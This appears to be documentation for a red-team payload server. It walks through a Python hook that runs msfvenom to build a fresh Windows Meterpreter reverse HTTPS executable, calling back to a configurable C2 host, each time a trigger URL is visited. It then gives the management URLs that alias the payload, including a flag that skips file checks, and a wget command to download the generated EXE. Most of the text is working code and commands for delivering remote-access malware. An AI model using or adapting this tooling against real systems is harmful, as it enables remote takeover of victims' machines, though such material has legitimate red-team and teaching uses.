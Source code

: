 
### Breaking down the `hooks/autogen_msf.py` hook:
```python
'''
This hook serves a Meterpreter staged Reverse HTTPS
iteration, created with msfvenom for each new visit
of the triggering URL.
'''
import hooker
import subprocess
import tempfile

MSFVENOM = "msfvenom"    # msfvenom path
C2_HOST = "127.0.0.1"    # Returns to localhost: Change this!
C2_PORT = 443

# Staged MetHTTPS
PAYLOAD = "windows/meterpreter/reverse_https"    

# Triggered if the served filename contains the below string:
#   Example: rev_https.msf.exe
trigger_filename = '.msf'

@hooker.hook("pre_file")
def autogen_msf(filename, request):
    if trigger_filename not in filename:
        return None

    extension = '.' + filename.split('.')[-1]
    fd = tempfile.NamedTemporaryFile('rb', suffix=extension)

    command = f"{MSFVENOM} -p {PAYLOAD} LHOST={C2_HOST} LPORT={C2_PORT} -f exe -o {fd.name}"
    print("[!] '{}'".format(command))
    try:
        subprocess.run(command, shell=True, check=True)
    except subprocess.CalledProcessError:
        print(f"Failed to execute command: '{command}'")
    return fd
```
Loading it and running is as easy as `HOOK_SCRIPTS=hooks/autogen_msf.py python3 app.py`.
Now, to trigger the hook we need a file with `serve_random` in its filename to be aliased. So:
```
http://wormnest:8080/manage/add?path=hook.serve_random.dat&alias=msf
```
But this returns an error, about non-existing `rev_https.msf.exe` file.
That's why `unchecked` exists:
```
http://wormnest:8080/manage/add?path=rev_https.msf.exe&alias=msf&unchecked=true
```
Now `http://wormnest:8080/msf` is accessible, and will return a Meterpreter EXE!
Test it with `wget http://wormnest:8080/msf`!
